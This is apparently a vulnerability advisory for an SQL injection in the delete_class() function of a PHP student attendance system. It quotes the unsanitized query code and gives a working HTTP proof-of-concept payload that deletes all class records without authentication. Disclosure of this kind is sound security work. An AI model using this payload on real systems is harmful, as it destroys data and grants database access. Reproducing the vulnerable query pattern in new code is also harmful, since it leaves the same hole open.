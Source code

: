 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Simple Student Attendance System using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html) <br/>

**Affected Version**:
> Simple Student Attendance System using PHP and MySQL 1.0

**Affected Site Page**: 
> /ajax-api.php<br/>

**Affected Code**: 
> </ajax-api.php [function delete_class()]> <br/>

```php
public function delete_class(){
    extract($_POST);
    $delete = $this->conn->query("DELETE FROM `class_tbl` where `id` = '{$id}'");
    if($delete){
        $_SESSION['flashdata'] = [ 'type' => 'success', 'msg' => "Class has been deleted successfully!" ];
        return [ "status" => "success" ];
    }else{
        $_SESSION['flashdata'] = [ 'type' => 'danger', 'msg' => "Class has failed to deleted due to unknown reason!" ];
        return [ "status" => "error", "Class has failed to deleted!" ];
    }
}
```

**Related CWE:**
> [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

## **Details:**
> Allows SQL Injection by placing untrusted code

![image](https://github.com/smurf-reigz/security/assets/48426940/b74a2c69-b612-4b7d-a61d-04e2320e2173)

```http 
POST /ajax-api.php?action=delete_class HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 19
Connection: close

id=1337'+or+1=1;--+
```

DELETES all classes without authentication.

![image](https://github.com/smurf-reigz/security/assets/48426940/49ac0660-57e5-4cb0-9c4c-288b215d4ccd)


## **Vulnerability Impact:**
> As an attacker, can do the following:
> 1. Run any database query and have same permission as the web application (default for this Web Application is root).
